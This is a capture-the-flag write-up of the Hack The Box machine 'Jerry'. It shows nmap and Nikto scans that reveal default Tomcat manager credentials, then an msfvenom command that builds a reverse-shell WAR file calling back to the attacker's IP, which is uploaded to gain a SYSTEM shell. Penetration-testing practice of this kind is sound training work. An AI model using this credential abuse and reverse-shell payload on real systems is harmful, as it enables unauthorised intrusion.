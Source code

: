 # Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Wed Aug 17 18:27:18 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv jerry.htb
Nmap scan report for jerry.htb (10.129.65.55)
Host is up, received echo-reply ttl 127 (0.047s latency).
Scanned at 2022-08-17 18:27:18 CDT for 39s
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Aug 17 18:27:57 2022 -- 1 IP address (1 host up) scanned in 39.70 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Wed Aug 17 18:37:02 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 8080 jerry.htb
Nmap scan report for jerry.htb (10.129.65.55)
Host is up, received echo-reply ttl 127 (0.052s latency).
Scanned at 2022-08-17 18:37:03 CDT for 8s

PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 17 18:37:11 2022 -- 1 IP address (1 host up) scanned in 9.28 seconds
```

I also always run a nmap vuln scan which ended up returning default credentials for the Tomcat manager page!

```
# Nmap 7.92 scan initiated Wed Aug 17 18:53:45 2022 as: nmap -oA vuln/scan --script vuln,safe,discovery --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 8080 jerry.htb
Pre-scan script results:

[...]

PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-default-accounts: 
|   [Apache Tomcat] at /manager/html/
|     tomcat:s3cret
|   [Apache Tomcat Host Manager] at /host-manager/html/
|_    (no valid default credentials found)

[...]

Post-scan script results:
| creds-summary: 
|   10.129.65.59: 
|     8080/http-proxy: 
|_      tomcat:s3cret - Valid credentials
| reverse-index: 
|_  8080/tcp: 10.129.65.59
Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Aug 17 18:56:47 2022 -- 1 IP address (1 host up) scanned in 181.81 seconds

```

# Enumeration

## Nikto

There really wasn't much from Nikto, although it looks like this tool was also able to find the default creds.

```
 Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.65.59
+ Target Hostname:    jerry.htb
+ Target Port:        8080
+ Start Time:         2022-08-17 19:15:46 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7889 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-08-17 19:23:39 (GMT-5) (473 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

So now that we have access to the Tomcat manager, let's login and exploit this with a `.war` reverse shell since I know it should be possible to upload malicious `.war` files to Tomcat instances based off of previous challenges.

![5cd2673cc0e22859d9e78800b2e0553b.png](../_resources/5cd2673cc0e22859d9e78800b2e0553b.png)

I go ahead and create my `.war` shell with the following command:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.64 LPORT=1337 -f war -o reverse_shell.war`

Followed by uploading the file at `/manager/html`...

And we surprisingly get a shell back straight as SYSTEM! No privilege escalation needed!

![03906e06bd4c25456401d3f6b277413c.png](../_resources/03906e06bd4c25456401d3f6b277413c.png)

Time to collect our loot and move on to the next box. :)

![flags.png](../_resources/flags.png)

